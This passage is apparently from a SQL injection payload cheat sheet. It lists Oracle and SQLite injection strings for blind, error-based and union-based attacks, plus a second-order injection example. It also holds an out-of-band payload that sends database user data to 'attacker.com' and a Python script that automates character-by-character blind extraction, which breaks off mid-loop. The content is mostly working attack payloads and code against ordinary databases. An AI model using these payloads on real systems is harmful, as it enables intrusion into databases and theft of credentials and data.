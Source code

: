 ```sql
' AND (SELECT COUNT(*) FROM all_users WHERE ROWNUM<=1 AND DBMS_LOCK.SLEEP(5) IS NULL)>0--

-- Boolean-based blind
' AND (SELECT COUNT(*) FROM users)>0--

-- Error-based
' AND (SELECT CAST((SELECT user FROM dual) AS number) FROM dual)=1--

-- Out-of-band
' AND (SELECT EXTRACTVALUE(XMLType('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://attacker.com/'||(SELECT user FROM dual)||'"> %remote;]>'),'/l') FROM dual)--
```

### SQLite Payloads
```sql
-- Version detection
' UNION SELECT sqlite_version()--

-- Table enumeration
' UNION SELECT name FROM sqlite_master WHERE type='table'--

-- Column enumeration
' UNION SELECT sql FROM sqlite_master WHERE name='users'--

-- Data extraction
' UNION SELECT username,password FROM users--

-- File operations (limited)
' UNION SELECT load_extension('malicious.so')--
```

## Advanced Injection Techniques

### Second-Order SQL Injection
```sql
-- Registration phase
INSERT INTO users (username, email) VALUES ('admin''OR 1=1--', 'test@email.com');

-- Exploitation phase (when data is used in query)
SELECT * FROM posts WHERE author='admin'OR 1=1--';
```

### Blind SQL Injection Automation
```python
#!/usr/bin/env python3
import requests
import string

def extract_data_boolean(url, injection_point, query, true_condition):
    """Extract data using boolean-based blind SQL injection"""
    result = ""
    position = 1
    
    while True:
        found_char = None
        for char in string.printable:
            payload = f"' AND ASCII(SUBSTRING(({query}),{position},1))={ord(char)}--"
            test_url = url.replace(injection_point, payload)
            
            response = requests.get(test_url)
            if true_condition in response.text:
                found_char = char
```